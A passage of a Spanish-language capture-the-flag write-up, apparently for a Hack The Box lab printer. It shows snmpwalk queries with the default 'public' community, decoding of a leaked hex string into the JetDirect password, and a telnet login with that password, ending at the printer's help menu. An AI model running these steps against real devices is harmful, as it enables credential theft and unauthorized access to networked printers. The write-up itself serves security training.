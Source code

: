 Volvemos a utilizar la herramienta snmwalk, para ver si encontramos mas información del servicios, pero esta vez agregamos un flag en valor 1
>```bat
>snmpwalk -c public -v2c 10.10.11.107 1
>```

como resultado obtendremos la siguiente información.

#### Resultado
>```bat
>SNMPv2-SMI::mib-2 = STRING: "HTB Printer"
>SNMPv2-SMI::enterprises.11.2.3.9.1.1.13.0 = BITS: 50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
>33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135 
>SNMPv2-SMI::enterprises.11.2.3.9.1.2.1.0 = No more variables left in this MIB View (It is past the end of the MIB tree)
>```

En el resultado anterior se puede evidenciar una cadena hexadecimal que se encuentra despues del parametro BITS:, para decifrarla se puede usar la herramienta *_xdd_*

>```bat
>echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32 
>33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
>```

El reusltado de descifrar la cadena hexadecimal es el siguiente:

#### Resultado
>```bat
>P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i   IYaA"1&1A5%
>```
*_Nota_*: Se puede deducir que el resultado de la cadena se encuentra en la primera parte e la cadena obtenida, hasta 8i.

Con la contrasela obtenida podemo utilizar el servicio telnet para verificar si podemos tener acceso al equipo antique.

>```python
>telnet 10.10.11.107 23
>Trying 10.10.11.107...
>Connected to 10.10.11.107.
>Escape character is '^]'.
>HP JetDirect
>Password: P@ssw0rd@123!!123q"2Rbs3CSs$4EuWGW(8i
>Please type "?" for HELP
>```

#### Presionamos ?
>```python
>?
>To Change/Configure Parameters Enter:
>Parameter-name: value <Carriage Return>
>
>Parameter-name Type of value
>ip: IP-address in dotted notation
>subnet-mask: address in dotted notation (enter 0 for default)
>default-gw: address in dotted notation (enter 0 for default)
>syslog-svr: address in dotted notation (enter 0 for default)
>idle-timeout: seconds in integers
>set-cmnty-name: alpha-numeric string (32 chars max)
>host-name: alpha-numeric string (upper case only, 32 chars max)
>dhcp-config: 0 to disable, 1 to enable
>allow: <ip> [mask] (0 to clear, list to display, 10 max)
>addrawport: <TCP port num> (<TCP port num> 3000-9000)